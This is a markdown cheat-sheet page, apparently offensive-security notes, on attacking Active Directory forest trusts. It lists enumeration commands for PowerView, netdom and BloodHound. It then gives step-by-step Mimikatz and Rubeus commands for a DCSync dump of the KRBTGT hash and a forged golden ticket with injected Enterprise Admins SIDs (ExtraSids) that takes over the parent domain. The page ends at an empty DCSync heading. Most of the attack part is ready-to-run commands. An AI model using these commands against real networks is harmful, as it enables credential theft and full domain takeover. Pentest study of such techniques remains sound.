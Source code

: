 ```yaml
---
layout: app
title: "Active Directory Forest"
tags: ["netdom","powerview", "KRBTGT","ExtraSids","sidHistory", "DCSync"]

---
```


# Native Powershell Modules

## Enumerating Trust Relationships

```powershell
Import-Module activedirectory
Get-ADTrust -Filter *
```

# With Powerview

```powershell
(powerview)> Get-DomainTrust 
```

## Using Get-DomainTrustMapping

```powershell
(powerview)> Get-DomainTrustMapping
```

## Checking Users in the Child Domain using Get-DomainUser

```powershell
(powerview)> Get-DomainUser -Domain [child domain] | select SamAccountName
```

Another tool we can use to get Domain Trust is netdom. The netdom query sub-command of the netdom command-line tool in Windows can retrieve information about the domain, including a list of workstations, servers, and domain trusts.


## Using netdom to query domain trust

```bash
netdom query /domain:[ domain] trust
```

## Using netdom to query domain controllers
```bash
netdom query /domain:[domain] dc
```

## Using netdom to query workstations and servers
```bash
netdom query /domain:[domain] workstation
```

# Using BloodHound

We can also use BloodHound to visualize these trust relationships by using the **Map Domain Trusts** pre-built query. Here we can easily see that two bidirectional trusts exist.

# Attacking Domain Trusts - Child -> Parent Trusts - from Windows

Using Mimikatz, an attacker can perform SID history injection and add an administrator account to the SID History attribute of an account they control. When logging in with this account, all of the SIDs associated with the account are added to the user's token.

This token is used to determine what resources the account can access. If the SID of a Domain Admin account is added to the SID History attribute of this account, then this account will be able to perform **DCSync** and create a **[Golden Ticket](https://attack.mitre.org/techniques/T1558/001/)** or a **Kerberos ticket-granting ticket (TGT)**, which will allow for us to authenticate as any account in the domain of our choosing for further persistence.

# ExtraSids Attack - Mimikatz

To perform this attack after compromising a child domain, we need the following:

* The KRBTGT hash for the child domain
* The SID for the child domain
* The name of a target user in the child domain (does not need to exist!)
* The FQDN of the child domain.
* The SID of the Enterprise Admins group of the root domain.
* With this data collected, the attack can be performed with Mimikatz.

# Obtaining the KRBTGT Account's NT Hash using Mimikatz

Perform **DCSYNC** attack to get **NTLM** hash.

```bash
(mimikatz)> lsadump::dcsync /user:[domain]\krbtgt
...

Hash NTLM: 9d765b482771505cbe97411065964d5f
ntlm- 0: 9d765b482771505cbe97411065964d5f
lm  - 0: 69df324191d4a80f0ed100c10f20561e

```

### Get SID Domain

```powershell
(powerview)> Get-DomainSID
```
### Obtaining Enterprise Admins Group's SID using Get-DomainGroup

```powershell
(PS)> Get-ADGroup -Identity "Enterprise Admins" 
(powerview)> Get-DomainGroup -Domain [domain] -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
At this point, we have gathered the following data points:

* The KRBTGT hash for the child domain: XXXXXXXXXXXXXXX
* The SID for the child domain: S-1-5-XXXXXXXXXXXX
* The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: **hacker**
* The FQDN of the child domain: xxxx.yyyy.ccc
* The SID of the Enterprise Admins group of the root domain: S-1-5-21-AAAAAAAAAAAAAAAAAAAAAAAAAA


### Ready! to Attack
Creating a Golden Ticket with Mimikatz

```powershell
(mimikatz) # kerberos::golden /user:hacker /domain:[domain] /sid:S-1-5-21-XXXXXXXXXXXXX /krbtgt:[KRBTGT hash] /sids:S-1-5-21-AAAAAAAAAAAAAAAAAAAAAAAA /ptt
(PS) > klist 
```
From here, it is possible to access any resources within the parent domain, and we could compromise the parent domain in several ways.

## ExtraSids Attack - Rubeus

```powershell
.\Rubeus.exe golden /rc4:[KRBTGT hash] /domain:[domain] /sid:S-1-5-21-XXXXXXXXXXXXXXXXXXX  /sids:S-1-5-21-AAAAAAAAAAAAAAAAAAA /user:hacker /ptt
(PS)> klist
```

# Performing a DCSync Attack

